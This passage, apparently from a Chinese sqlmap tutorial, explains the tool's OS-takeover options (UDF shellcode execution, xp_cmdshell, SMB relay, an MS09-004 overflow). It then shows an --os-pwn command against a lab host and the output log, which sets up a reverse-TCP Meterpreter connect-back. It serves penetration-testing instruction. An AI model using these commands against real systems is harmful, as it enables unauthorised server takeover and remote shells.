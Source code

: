 ```
1、通过用户自定义的sys_bineval()函数在内存中执行Metasplit的shellcode，支持MySQL和PostgreSQL数据库，参数：--os-pwn。
2、通过用户自定义的函数上传一个独立的payload执行，MySQL和PostgreSQL的sys_exec()函数，Microsoft SQL Server的xp_cmdshell()函数，参数：--os-pwn。
3、通过SMB攻击(MS08-068)来执行Metasploit的shellcode，当sqlmap获取到的权限足够高的时候（Linux/Unix的uid=0，Windows是Administrator），--os-smbrelay。
4、通过溢出Microsoft SQL Server 2000和2005的sp_replwritetovarbin存储过程(MS09-004)，在内存中执行Metasploit的payload，参数：--os-bof
```

列举一个MySQL例子：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
&gt; 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
&gt; 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database underlying 
operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
&gt; 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
&gt; 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
&gt; 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, please wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
```
